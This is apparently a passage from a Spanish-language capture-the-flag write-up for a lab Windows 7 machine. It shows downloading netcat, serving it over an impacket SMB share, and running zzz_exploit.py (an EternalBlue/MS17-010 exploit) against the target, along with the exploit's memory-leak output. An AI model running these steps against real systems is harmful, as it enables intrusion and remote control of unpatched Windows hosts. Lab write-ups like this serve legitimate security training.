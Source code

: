 
Para ello primero vamos a descargarnos el ejecutable de `nc.exe` de:

* [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

Concretamente el `netcat 1.12`, lo descomprimimos y usaremos el `nc64.exe`.

```bash
❯ unzip netcat-win32-1.12.zip -d netcat
Archive:  netcat-win32-1.12.zip
  inflating: netcat/doexec.c         
  inflating: netcat/getopt.c         
  inflating: netcat/netcat.c         
  inflating: netcat/generic.h        
  inflating: netcat/getopt.h         
  inflating: netcat/hobbit.txt       
  inflating: netcat/license.txt      
  inflating: netcat/readme.txt       
  inflating: netcat/Makefile         
  inflating: netcat/nc.exe           
  inflating: netcat/nc64.exe         
❯ cd netcat
❯ ls
 doexec.c   generic.h   getopt.c   getopt.h   hobbit.txt   license.txt   Makefile   nc.exe   nc64.exe   netcat.c   readme.txt
❯ rm nc.exe
❯ mv nc64.exe nc.exe
```

Ahora ofrecemos un recurso compartido con el nombre de `smbFolder` y nos ponemos en escucha en el puerto `443`.


```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ejecutamos en `zzz_exploit.py` en conjunto con uno de los `named pipes` validos, es posible que el exploit deba ejecutarse varias veces.

```bash
❯ python2 zzz_exploit.py 10.10.10.40 samr
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa800328a7c0
SESSION: 0xfffff8a008eed2e0
FLINK: 0xfffff8a0081e5088
InParam: 0xfffff8a00818a15c
MID: 0x803
unexpected alignment, diff: 0x5a088
leak failed... try again
CONNECTION: 0xfffffa800328a7c0
SESSION: 0xfffff8a008eed2e0
FLINK: 0xfffff8a0081df088
InParam: 0xfffff8a003aa715c
MID: 0x803
unexpected alignment, diff: 0x4737088
leak failed... try again
```